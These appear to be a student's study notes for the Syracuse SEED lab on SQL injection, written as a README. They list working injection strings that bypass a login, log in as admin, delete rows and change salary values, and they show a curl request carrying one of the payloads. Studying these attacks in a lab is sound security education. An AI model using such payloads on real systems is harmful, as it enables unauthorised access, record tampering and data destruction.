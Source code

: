 
# Independent study on web security issues( Based on Seedlab, Syracuse University) 
## SQL injection 
### Tasks:

#### A simple PHP application. 
* Link : https://gitlab.com/shivapbhusal/app_analysis/blob/master/security_examples/sql_injection.php

#### Seedlab tasks 
* Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_SQL_Injection/SQL_Injection.pdf

#### Task 1: Playing with the MySQL console 
```sql
mysql -u root -pseedubuntu
use Users; # name of the database 
show tables; # show all the tables in Users database 
```

#### Task 2.1 : SQL injection attack from webpage 
To simply login, attacker can type this in the Employee ID textbox 
```
a ' or 1 #

```

To login as admin, attacker can type this. We assume, attacker knows the name of admin. 
```
a ' or Name='Admin' #
```

#### Task 2.2. : From the command line 
```
curl 'http://www.seedlabsqlinjection.com/unsafe_credential.php?EID=a+%27+or+Name%3D%27Admin%27+%23&Password=aass'
``` 

#### Task 2.3. : Append a new SQL statement 
Had some issues with this. Draft script. P.S : Attacker will also not know the table name. 
```
a ';delete from credential where Name='Abc'#
```

#### Task 3.1 : Updating the salary 
Employee can't edit their salary information. But they can do this with the help of SQL injection attack. Type this in any of the field 
```
aaaaaa',salary=100000#
```

#### Task 3.2 : Updating the salary of one specific person
Set the value of first field as 
```
aaaaaa',salary=1 where Name='Ryan'#
```

& set the values of every other fields as # so that every statements executed are commented out. 

